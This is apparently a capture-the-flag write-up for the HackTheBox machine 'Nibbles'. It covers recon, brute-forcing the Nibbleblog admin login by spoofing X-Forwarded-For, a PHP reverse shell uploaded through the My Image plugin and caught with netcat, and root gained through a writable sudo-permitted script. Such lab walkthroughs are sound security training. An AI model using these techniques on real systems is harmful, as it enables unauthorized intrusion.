



# Nibbles: 10.10.10.75

## Hints

- Google helps find the application source code on GitHub
- The website blacklisting has a workaround to allow password guessing (headers?!)
- Privesc is pretty straightforward - common tools will find it

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache/2.4.18 (Ubuntu)
```

## 80: Recon + Gobuster

Having a browse, and viewing the page source, there is a reference to the `nibbleblog` directory. Browsing to this directory show an empty blog.



There are a few links to PHP pages, and it looks like Nibbleblog is a published piece of software. A quick Google search discovers a [website](https://www.nibbleblog.com/) and [GitHub repository](https://github.com/dignajar/nibbleblog). The last update was 2019 - when the `README.md` file was changed to point new users to a new alternative.

While doing this manual recon - I ran a `gobuster` and found most of the expected files as hosted in the GitHub repo.

```none
└─$ gobuster dir -t 20 -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirb/common.txt -o gobuster_80_nibbleblog_common.log -x php
```

The web app seemed unique - so did an exploit search.

```none
└─$ searchsploit nibbleblog
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                            | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                             | php/remote/38489.rb
---------------------------------------------------------------------------------- ---------------------------------
```

## Determine Nibbleblog Version

The next step is to find the application version to try to match the exploit. I would hazard a guess it was 4.0.3 - due to some CTF logic (e.g., the machine difficulty level, age of the machine). To find the version I did a quick source code review.

```none
git clone https://github.com/dignajar/nibbleblog.git
cd nibbleblog
grep -ril "version" . | sort
```

I also browsed around the website, and found version info is in a variety of places, such as:

- `http://10.10.10.75/nibbleblog/update.php`
- `http://10.10.10.75/nibbleblog/README`

```none
'Description'     => %q{
    Nibbleblog contains a flaw that allows a authenticated remote
    attacker to execute arbitrary PHP code. This module was
    tested on version 4.0.3.
    },
```



Based on the version 4.0.3 information found, an exploit search finds a nice match to the previous `searchsploit` results - an arbitrary file upload. However, a quick review of this exploit shows that web app access is required.

## Getting Web App Access

This leaves us in an interesting position. I did some more enumeration and could not find anything in the way of credentials, or hints. I tried a bunch of credentials on the login page:

```none
http://10.10.10.75/nibbleblog/admin.php
```

And then... blacklisted!


More enumeration. I looked at the source of the application that I cloned from GitHub. For example, some `grep` commands.

```none
grep -rin blacklist .
grep -ril BLACKLIST_SAVED_REQUESTS nibbleblog
```

And found some interesting files:

```none
admin/boot/rules/4-blacklist.bit
admin/boot/rules/3-variables.bit
admin/kernel/db/db_users.class.php
```

From the source code review - it seems like the web app bans a specific IP after 5 incorrect attempts. I poked around the live web app and found some more interesting stuff. After looking at `install.php`, it recommended to use `update.php` which lead to the following URL:

```none
http://10.10.10.75/nibbleblog/content/private/config.xml
```


The directory listing for `content/private` was open and contained the `users.xml` file.

```xml
<users>
    <user username="admin">
        <id type="integer">0</id>
        <session_fail_count type="integer">0</session_fail_count>
        <session_date type="integer">1625089343</session_date>
    </user>
    <blacklist type="string" ip="10.10.10.1">
        <date type="integer">1512964659</date>
        <fail_count type="integer">1</fail_count>
    </blacklist>
</users>
```

The `users.xml` file was interesting and seemed to document the number of failed logins. It also revealed a username of `admin`.

To be honest - at this point, I had no idea how to solve this problem. After Googling for about 30 minutes and trying random things I looked up a few walkthroughs. Lots of people just guessed the password as `nibbles` - which seems obvious due to the level of the box. This was not a good enough answer for me - and I tried to find an alternative solution.

Then I read [Brute-forcing the admin password on Nibbles](https://eightytwo.net/blog/brute-forcing-the-admin-password-on-nibbles/). The author figured out you can use an `X-Forwarded-For` HTTP header to trick the web app and rotate your IP address. Check the [MDN X-Forwarded-For documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For) for more info. But the summary of the header for our purposes:

> To see the original IP address of the client, the X-Forwarded-For request header is used.

The blogpost from eightytwo had some Python source code available to implement the attack. Read more about it in their [post](https://eightytwo.net/blog/brute-forcing-the-admin-password-on-nibbles/). I took the source and adapted it a little, and you can find it in the following location: `exploits/login.py`. A couple of minutes later:

- Username: `admin`
- Password: `nibbles`

## Shell via Arbitrary File Upload

With access, the exploit should be pretty easy to get a shell. The `searchsploit` results gave us `38489.rb` - a Metasploit script. Looking at the source provides a [reference link](http://blog.curesec.com/article/blog/NibbleBlog-403-Code-Execution-47.html) with a set of steps for reproduction.

- Obtain credentials
- Activate `My Image` plugin
- Upload shell (instead of image)
- Ignore warnings
- Visit target URL to execute a reverse shell

Used the `php-reverse-shell.php` and changed the IP address and port.

```none
cp /usr/share/webshells/php/php-reverse-shell.php .
```

A warning message is displayed, as outlined in the notes:



Now, just need to visit the following URL to execute the PHP payload.

```none
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

And a reverse shell!

```none
└─$ nc -lvnp 8000
listening on [any] 8000 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.75] 53898
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:30:21 up 19 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

## Flag: User

Since we are logged in as the `nibbler` user, the user flag is pretty easy:

```none
$ ls -lisa /home
total 12
   12 4 drwxr-xr-x  3 root    root    4096 Dec 10  2017 .
    2 4 drwxr-xr-x 23 root    root    4096 Dec 15 05:13 ..
49942 4 drwxr-xr-x  3 nibbler nibbler 4096 Dec 29  2017 nibbler
$ wc -c /home/nibbler/user.txt
33 /home/nibbler/user.txt
```

## Flag: Root

Before running any privesc scripts I had a quick poke around. Seems like there was a `sudo` configuration issue.

```none
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

This should be pretty easy. Mainly because the `monitor.sh` script doesn't exist, and lives in a location we have access to. I created a folder, then created the script.

```none
cd /home/nibbler
mkdir -p personal/stuff
cd personal/stuff
echo "bash" > monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

Root access granted:

```none
id
uid=0(root) gid=0(root) groups=0(root)
wc -c /root/root.txt
33 /root/root.txt
```

## Lessons Learned

- Keep it simple, and improve default credential guessing
- Some web servers are badly configured to handle `X-Forwarded-For`
- When source code is available, don't forget about poking the web app

## Useful Resources

- [HackTheBox Nibbles - ippsec](https://www.youtube.com/watch?v=s_0GcRGv6Ds)
- [Brute-forcing the admin password on Nibbles](https://eightytwo.net/blog/brute-forcing-the-admin-password-on-nibbles/)
